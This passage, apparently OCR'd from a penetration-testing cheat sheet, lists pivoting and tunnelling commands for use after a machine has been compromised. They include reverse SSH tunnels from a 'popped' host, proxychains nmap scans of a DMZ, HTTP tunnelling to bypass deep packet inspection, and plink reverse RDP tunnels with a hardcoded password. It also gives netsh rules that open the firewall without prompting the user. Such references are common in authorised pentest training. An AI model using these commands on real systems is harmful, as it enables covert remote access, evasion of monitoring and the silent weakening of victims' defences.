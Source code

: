     -   ssh &lt;gateway&gt; -R &lt;remote port to bind&gt;:&lt;local
        host&gt;:&lt;local port&gt;  

-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT

    -   ssh -D &lt;local proxy port&gt; -p &lt;remote port&gt;
        &lt;target&gt;

-   Proxychains - Perform nmap scan within a DMZ from an external
    computer

    -   Create reverse SSH tunnel from Popped machine on :2222  
        ssh -f -N -R 2222:$ip:22 root@$ip

    -   Create a Dynamic application-level port forward on 8080 thru
        2222  
        ssh -f -N -D $ip:8080 -p 2222 hax0r@$ip

    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains  
        proxychains nmap --top-ports=20 -sT -Pn $ip/24

-   HTTP Tunneling  
    nc -vvn $ip 8888

-   Traffic Encapsulation - Bypassing deep packet inspection

    -   http\_tunnel  
        On server side:  
        sudo hts -F &lt;server\_ip\_addr&gt;:&lt;port\_of\_your\_app&gt;
        80  
        On client side:  
        sudo htc -P &lt;my\_proxy.com:proxy\_port&gt; -F
        &lt;port\_of\_your\_app&gt; &lt;server\_ip\_addr&gt;:80  
        stunnel

-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network

    -   Tunnel on port 22  
        plink -l root -pw pass -R 3389:$ip:3389 $ip

    -   Port 22 blocked? Try port 80? or 443?  
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P
        80

-   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)

    -   Windows machine add required firewall rules without prompting
        the user

    -   netsh advfirewall firewall add rule name="httptunnel\_client"
        dir=in action=allow program="httptunnel\_client.exe" enable=yes

    -   netsh advfirewall firewall add rule name="3000" dir=in
        action=allow protocol=TCP localport=3000

